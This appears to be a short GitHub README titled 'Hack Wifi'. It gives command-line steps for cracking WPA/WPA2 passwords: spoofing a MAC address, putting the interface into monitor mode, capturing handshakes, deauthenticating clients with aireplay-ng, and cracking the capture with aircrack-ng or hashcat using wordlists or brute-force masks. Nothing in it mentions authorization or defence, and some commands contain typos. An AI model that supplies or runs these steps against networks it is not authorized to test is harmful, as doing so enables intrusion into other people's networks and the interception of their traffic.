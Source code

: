 # Hack Wifi
## macos
https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
## kali or ubuntu

https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux


hack wifi (wpa2-wpa) with kali or ubuntu
#### new terminal 1
You can change your mac address(Optional)
```
ifconfig wlan0 down
macchanger -m 00:00:00:00:00 wlan0
ifconfig wlan0 down
```
then You have to switch to monitor mode
```
airmon-ng start wlan0
```
#### new terminal 2
look available Wifis
```
airodump wlan0mon

airodump-ng -c channel --bssid MAC -w /root/Desktop/ mon0

```
#### new terminal 3
attack to get handshake in terminal 2
```
aireplay-ng -0 <60> -a <BSSID> wlan0mon
```

##########
```
cap2hccapx.bin name.cap name.hccapx
hashcat.exe -m 2500 capture.hccapx rockyou.txt
hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d

```

#### final step
after You get handshake in (2)

you can try to crack password
```
aircrack-ng -w <wordlist> -b <BSSID> <handshake file>
```
##### or
you can crack with GPU . its faster and better with hashcat

first convert handshake file
```
airecrack-ng <INP> -J <OUT> #cap to hcap   
```
then
```
hashcat -m 2500 -u 4096 <.hcap file> <wordlist>
```
hashcat manual
```
-a3 #brute force mode

?l=abc...z
?d=012...9
?u=ABC...Z
?s=!#...{}
?a=?l?u?d?s
```
